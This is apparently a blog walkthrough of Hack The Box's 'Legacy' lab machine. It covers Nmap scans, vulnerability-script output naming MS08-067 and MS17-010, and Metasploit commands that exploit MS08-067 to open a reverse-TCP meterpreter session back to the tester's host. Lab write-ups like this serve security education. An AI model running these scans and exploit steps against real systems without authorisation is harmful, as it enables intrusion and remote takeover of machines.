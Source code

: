 ```yaml
---
title: "Legacy Walkthrough: Exploiting vulnerable Server Service"
date: 2024-10-18 12:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB,smb,standalone]   
description: "Walkthrough of HTB's Legacy machine"
---
```


*Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.*

## Recon

I started with a standard Nmap scan to discover open ports:
```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.4 --max-retries 0 
SYN Stealth Scan Timing: About 15.49% done; ETC: 04:22 (0:00:33 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.072s latency).
Not shown: 61228 closed tcp ports (reset), 4304 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
### Nmap Flags:
- **`-sS`**: Performs a SYN scan (stealth scan).
- **`-n`**: Disables DNS resolution to speed up scanning.
- **`--disable-arp-ping`**: Skips ARP ping.
- **`-p`**: Scans all of the ports.
- **`-A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning

### key Observations

- Port 139/445: SMB service (Windows shares).

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 139,445 10.10.10.4 --max-retries 0
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%), Microsoft Windows XP SP2 or SP3, or Windows Embedded Standard 2009 (93%), Microsoft Windows XP SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-10-23T08:15:17+03:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b2:02 (VMware)
|_clock-skew: mean: 5d00h15m42s, deviation: 2h07m16s, median: 4d22h45m42s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
The findings strongly suggest that this machine is running Windows XP SP2/SP3

To Identify the SMB version and possible vulnerabilities for the smb

```bash
sudo nmap --script=vuln -p 139,445 10.10.10.4 -n -Pn                                         
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-18 01:00 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.081s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```

It looks like the SMB is vulnerable to EternalBlue and NETAPI exploit.

---
### Background

If SMB is enabled on a machine, the Server Service (also know as LanmanServer) will listen for incoming SMB Conncetions on ports 139 and 445. The server service is responsible for handling requests that come in over these ports.

SMB also provides a communication channel for RPC (Remote Procedure Call). The Server service listens for RPC requests over the same ports (139/445) and forwards those requests to the appropriate service, like SAM (Security Account Manager) or LSA (Local Security Authority), using named pipes (e.g., \pipe\samr for SAM-related operations).

**SMB** = Pipeline/Channel: SMB establishes the communication channel between the client and server. It handles connection setup, session management, and access control.

**RPC** = Payload/Message: RPC encapsulates the commands or operations that need to be executed remotely. The client sends RPC calls to the server over the SMB connection, and the server sends back the RPC responses through the same SMB connection.

- In the case of CVE-2008-4250 (MS08-067), the attacker sends a specially crafted RPC request over SMB (usually on port 445).
- The Server service, which is listening on port 445, processes the incoming RPC request.
- The vulnerability in the Server service's RPC handling code is exploited by the malicious RPC request, causing a buffer overflow, allowing the attacker to execute arbitrary code with SYSTEM privileges.



---

### Exploiting through MetaSploit
As we are aware of that the machine is vulnerable to MS08-067, searching for any available exploits using search in the msfconsole
![msfconsole](assets/img/Legacy/msf_search.png)
Using the same exploit to pwn the machine

```bash
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
```

Configuring the target IP and leaving the OS flavour to metasploit to figure out

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.10
LHOST => 10.10.16.10
```

Running the exploit to get SYSTEM privileges, as we are exploiting the system service
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.10:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 2 opened (10.10.16.10:4444 -> 10.10.10.4:1033) at 2024-10-17 23:24:45 -0400

meterpreter >
```


## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References

[MS08_067_Walkthrough](https://github.com/cjjduck/ms08_067_walkthrough)

[Exploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)